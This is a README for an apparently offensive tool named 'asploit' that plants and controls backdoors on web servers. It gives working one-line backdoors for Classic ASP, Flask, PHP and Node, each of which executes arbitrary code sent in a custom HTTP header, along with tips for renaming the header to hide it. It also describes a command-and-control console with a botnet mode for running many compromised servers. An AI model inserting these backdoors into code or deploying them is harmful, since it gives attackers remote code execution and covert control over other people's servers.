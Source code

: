# asploit
This tool allows you to deploy and exploit backdoors with one line of code in Classic ASP, Flask, NodeJS, and PHP servers.

Custom extensions can be created and installed to control any backdoored server.

# Backdoor
## Backdoor Genreation Script
Use the `create_backdoor.sh` script to generate the one line backdoor. The following is for reference.
### Classic ASP
Add the following line to the top of the file you want to have the backdoor
```
<% If request.servervariables("EXPLOIT") <> "" Then:execute(request.servervariables("EXPLOIT")):response.end:End If %>
```
### Flask
Add the following line to the top of the endpoint you want to have the backdoor
```
if request.headers.get('EXPLOIT'): global r;exec(__import__('base64').b64decode(request.headers.get('EXPLOIT').encode()).decode());return r;
```
### PHP
Add the following line to the top of the endpoint you want to have the backdoor
```
isset($_SERVER["HTTP_EXPLOIT"]) and eval($_SERVER["HTTP_EXPLOIT"]);
```
### Node
Add the following line to the endpoint you want to have the backdoor
```
if (req.headers?.exploit) return (eval('let r=res;let i=req;'+req.headers?.exploit));
```
Replace `res` with the `ServerResponse` parameter name, and replace `req` with the `IncomingRequest` parameter name.
#### Note
Only works if `fs` and `{ execSync } from 'child_process` is imported.

So in some cases, the backdoor may technically be up to three lines.
### Notes
Any area where `EXPLOIT` or `exploit` is referenced can be replaced with any custom HTTP header (eg. for PHP, `HTTP_EXPLOIT` -> `HTTP_ANYTHINGYOUWANT`).

# Controlling Backdoored Servers
## Command and Controller
The controller runs on Python. To start, run `main.py` in the `src` folder.
### Help
Type `help` to list all commands in the current shell. Changes depending on whether or not you've entered a botnet or exploit shell.

### Botnet Controlling
To control multiple backdoors at once, type `botnet` to enter the botnet mode.

## Custom Backdoors/Exploits
### Loading Extensions
Load extensions using the `loadext` command before entering an exploit shell.

Run `help loadext` for more details.

### Creating Extensions
To make a custom exploit/extension, create a Python module containing a class/classes that extends the ExploitProcessor class.

View the `PHPExploitProcessor` in the `src` folder for an example of the implementation.

# Contributing
Any help in this project would be appreciated, and feel free to make pull requests for any custom extensions you create.

# Thank You
This repository was inspired by [PHPSPLOIT](https://github.com/nil0x42/phpsploit).
